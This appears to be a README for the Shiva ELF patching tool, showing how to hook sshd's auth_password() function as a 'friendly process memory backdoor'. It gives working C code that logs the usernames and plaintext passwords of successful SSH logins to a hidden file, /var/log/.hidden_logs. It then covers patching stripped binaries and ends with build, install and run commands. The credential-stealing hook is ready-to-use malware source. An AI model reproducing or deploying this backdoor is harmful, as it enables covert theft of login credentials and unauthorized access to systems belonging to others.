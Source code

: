 # sshd patch

Turn Shiva into a friendly process memory backdoor that logs incoming usernames
and passwords that are authenticated via the auth_password() function in the
sshd binary.

## Method

Shiva installs a patch that hooks the function auth_password() within sshd. In
this particular example sshd has it's local symbol table ".symtab" in-tact
within the binary, and so we can write the patch by using symbol interposition
on the auth_password() function, sshd_patch.c

```
int auth_password(struct ssh *ssh, const char *password)
{
	FILE *logfd;
	int ret;
	struct Authctxt *authctxt = ssh->authctxt;
	struct passwd *pw = authctxt->pw;

	logfd = fopen("/var/log/.hidden_logs", "a+");
	fprintf(logfd, "auth_password hook called\n");

	/*
	 * call the original auth_password(ssh, password); by using
	 * the SHIVA_HELPER_CALL_EXTERNAL macro.
	 */
	ret = SHIVA_HELPER_CALL_EXTERNAL_ARGS2(auth_password, ssh, password);
	if (ret > 0) {
		/*
		 * If the real auth_password() succeeded, then log
		 * the username and password to "/var/log/.hidden_logs"
		 */
		fprintf(logfd, "Successful SSH login\n"
		    "Username: %s\n"
		    "Password: %s\n", pw->pw_name, password);
	}
	fclose(logfd);
	return ret;
}
```

## A note on patching stripped binaries

Shiva relies on libelfmaster for symbol table reconstruction of stripped
binaries, which internally parses the PT_GNU_EH_FRAME segment in the ELF binary to
reconstruct the symbols for the .text section. In the Linux aarch64 environment
that I'm developing in (Ubuntu 18.04.6 LTS) I have not seen any ELF binaries that
have the any data in their .eh_frame section, and a PT_GNU_EH_FRAME segment
simply doesn't exist in the ones that I've observed. The original version
of Shiva was for x86_64 (Found at https://github.com/elfmaster/shiva) and this
works with function symbol table reconstruction, therefore allowing a developer
to patch the sshd binary even if it was stripped. The developer would need to
first determine the address of where the auth_password() function is within the
binary. libelfmaster would internally generate a symbol, i.e: "fn_0x4002f3" and
so the patch developer would simply interpose the function by re-writing it, i.e.
```
int fn_0x4002f3(struct ssh *ssh, const char *password)
{
	/*
	 * new code here
         */
}


## A note on ELF runtime infection

This type of process-memory function hooking would typically be done either
on-disk to the ELF binary directly or in memory via `__libc_dlopen_mode` or
PTRACE. Generally these techniques are non-trivial and require developers to
write advanced tools that are thousands of lines of C code.

## Use patch

$ make
$ sudo make install
$ $PWD/sshd.patched -p 31337 -d
